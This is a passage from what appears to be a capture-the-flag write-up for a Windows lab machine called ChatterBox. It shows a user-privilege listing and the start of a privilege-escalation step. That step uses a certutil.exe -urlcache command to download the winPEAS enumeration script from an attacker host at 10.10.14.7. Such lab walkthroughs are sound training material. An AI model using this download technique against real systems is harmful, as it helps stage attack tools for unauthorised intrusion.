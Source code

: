 ```shell
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192  Mandatory group, Enabled by default, Enabled group                                                
                                                                                                                                                                       
                                                                                                                                                                       
PRIVILEGES INFORMATION                                                                                                                                                 
----------------------                                                                                                                                                 
                                                                                                                                                                       
Privilege Name                Description                          State                                                                                               
============================= ==================================== ========                                                                                            
SeShutdownPrivilege           Shut down the system                 Disabled                                                                                            
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled                                                                                             
SeUndockPrivilege             Remove computer from docking station Disabled                                                                                            
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled                                                                                            
SeTimeZonePrivilege           Change the time zone                 Disabled  
```
#### Privilege Escalation

- so we can import out winPEAS script to look for Privilege Escalation vectors `certutil.exe -urlcache -split -f http://10.10.14.7/winPEAS.bat winPEASx64.bat`

- we can see that some patches are not installed on the system

![](assets/ChatterBox_assets/Pasted%20image%2020230619112746.png)
